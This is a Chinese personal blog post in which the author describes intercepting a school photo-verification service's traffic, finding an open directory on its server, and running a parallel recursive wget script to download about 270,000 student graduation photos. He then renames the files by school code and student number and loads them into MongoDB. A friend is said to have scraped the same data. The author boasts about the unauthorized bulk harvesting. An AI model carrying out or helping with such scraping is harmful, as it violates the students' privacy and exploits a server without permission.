




### 这篇文章应该是几个星期前就该记录下来的。但<font color=green>世上哪得双全法，不负如来不负卿</font>。

# 当成故事来看，未尝不可，但是真的好爽啊

事情的起因很简单，就是上周上周上周的上周要进行全校本届毕业生彩像，然后过了大概一周，突然通知说让我们关注一个公众号，输入一串数字+学号+xl去验证是不是自己的照片。然后故事开始了。还有由于是几周之前的事情了，所以就不能在重现截图了。
## First：
手机wifi连接到我的笔记本，笔记本fiddler开代理。这样所有数据流向将十分清楚。所以很方便的找到了目的ip。然后burp suit拿出来，看看什么什么的，随便猜了下目录，竟然成了。服务器有目录遍历的漏洞，于是就直接写个小脚本wget去了，其实这样的话，并不是太完美，

```bash
#!/bin/bash
cat schoolname | while read line
do
	for ((i=0;i<8;i++));
	do
	{
		sleep 2;			
		wget -r -c -np -L http://xxxxip/wwtstudentcard/Web/public/appupload/$line/
	}&
	done	 
done 
```

就这样，扔服务器后台跑了一夜(谁让宿舍断网的，大爷的)，12G数据到手，总共27万张左右的图片（筛选之后乱七八糟的文件之后）。上面一个准确讲没什么技术含量，如果思路加小技巧算的话。

## Second：

拿到数据，有点多，但是有的目录是空的，有的还有html后缀的文件，还有的是学校的校徽，但是校徽的图片命名很规律，xiaohui.png .于是最后花了两天把所有空白文件删除，各种无关文件删除，并重命名图片文件名为学校代码+学号，并把大图和小图分别打包压缩，放到不同的文件夹中。当时发现一个很重要的事，就是一定要判断是不是文件，当时判断的时候默认是进入每个文件夹操作，结果有一个是文件，cd不了，肯定有错误，虽然是循环来处理，这个错误即使出现也不影响后面的操作，但还是值得注意，绝对。毕竟设计的脚本思路是进入文件夹，那么就应该判断是不是文件夹（只怪当时清理文件忘了清理校徽文件）。

```bash
cat hhhh | while read line
do
	cd $line
	ls | while read dirtype
	do
		#cd $dirtype
		#echo "Now I'm in:"  >> ../log
		#echo pwd  	    >> ../log
		cd $dirtype
		
		for fn in *.jpg
		do
			mv $fn $(pwd | grep -E "[0-9]" | awk -F "/" '{print $4}'
)$fn
		done
		cd ..
		#tar -cvzf $line.tar.gz $line
		#cd ..
	done
	
	#echo "Job Done "    >> log
	cd ..
done
```

## Third：

```bash
$ find -type d -empty	#找出所有的空文件夹
$ find $PWD #得到的是绝对路径 $pwd（小写的得到相对路径）
```

当时移除所有数据之后，准备

ls -aR | sed "s:^:`pwd`/:" > listto_mongo
cat listto_mongo | grep -v ".jpg" > temp
cat temp | while read line
do
	sed 's/$line//' listto_mongo

done

# Finally:


这是最后清洗完成后的数据，
最开始是这个样子的：

后来处理并整理，可以从下面看出来虽然没考虑xiaohui.png这个问题，虽然有错误，但是但是竟然把xiaohui.png也打包了。



最后这个是准备重命名，并得到所有的绝对路径之后，导入到mongo中去，但是现在我觉得这不是一个好主意，虽然GridFs设计的就是为这种不大不小的文件而生，而且放入数据库便于携带，但是还是不得不说，速度并不快。

一开始是打算用python+pymongo获取所有的文件并插入进去，但是后来发现mongofiles -d images put xxxx.png就可以实现，这样的话一个几行的shell就能搞定了，直接读取所有保存文件路径名的文本，多个线程插入即可。但是其实这也不好。因为我的照片即使是大的也没有256k,那么就不会把一个照片分块存储，而且每次存取将十分麻烦。虽然mongo可以访问远程mongo服务器，但总的来讲，对我并不是一个好主意。但是出于各种原因还是存了(哭笑不得)。
顺便，和好朋友一起，告诉他这个东西之后，他也在他的服务器上抓了所有的，而且直接保存到sqlite了，虽然我觉的这种东西都不应该放到数据库，但是一切为了备份～_～


# End
最后作为一个小菜鸟，路还很长，这是我习惯说的一句话，虽然有点啰嗦。还有一些小脚本，去服务器看时，发现已经没了，所以贴不来了。


